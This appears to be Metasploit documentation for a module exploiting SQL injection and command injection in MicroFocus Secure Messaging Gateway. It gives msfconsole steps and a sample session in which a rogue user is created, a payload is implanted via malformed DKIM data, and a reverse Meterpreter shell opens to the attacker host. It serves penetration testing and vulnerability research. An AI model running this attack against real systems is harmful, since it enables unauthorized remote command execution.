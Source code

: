 ## Vulnerable Application
This module exploits a SQL injection and command injection vulnerability in MicroFocus Secure Messaging Gateway. An unauthenticated user can execute a terminal command under the context of the web user.

One of the user supplied parameters of API endpoint is used by the application without input validation and/or parameter binding, which leads to SQL injection vulnerability. Successfully exploiting this vulnerability gives a ability to add new user onto system. manage_domains_dkim_keygen_request.php endpoint is responsible for executing an operation system command. It's not possible to access this endpoint without having a valid session.

Combining these vulnerabilities gives the opportunity execute operation system commands under the context of the web user.
        
**Vulnerable Application Installation Steps**

Complete following trial submission form. You will be able to download the product as a OVA or ISO file.

[https://www.microfocus.com/products/secure-gateway/trial/](https://www.microfocus.com/products/secure-gateway/trial/)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/microfocus_secure_messaging_gateway `
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Creating an user with appropriate privileges` in console.
- [ ] **Verify** that you are seeing `User successfully created. Username : rmcynlbredxqh` in console.
- [ ] **Verify** that you are seeing `Authenticating with created user` in console.
- [ ] **Verify** that you are seeing `Successfully authenticated` in console.
- [ ] **Verify** that you are seeing `Creating a domain with a malformed DKIM data` in console.
- [ ] **Verify** that you are seeing `Payload is successfully implanted` in console.
- [ ] **Verify** that you are seeing `Triggering an implanted payload` in console.
- [ ] **Verify** that you are getting meterpreter session.

## Scenarios

```
msf5 > use exploit/linux/http/microfocus_secure_messaging_gateway 
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > set RHOSTS 12.0.0.25
RHOSTS => 12.0.0.25
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(linux/http/microfocus_secure_messaging_gateway) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Creating an user with appropriate privileges
[+] User successfully created. Username : rmcynlbredxqh
[*] Authenticating with created user
[+] Successfully authenticated
[*] Creating a domain record with a malformed DKIM data
[+] Payload is successfully implanted
[*] Triggering an implanted payload
[*] Sending stage (37775 bytes) to 12.0.0.25
[*] Meterpreter session 10 opened (12.0.0.1:4444 -> 12.0.0.25:44332) at 2018-06-25 20:26:54 +0100
[*] Cleaning up...

meterpreter > pwd
/opt/gwava/gwavaman/http/admin/contents/ou
meterpreter >
```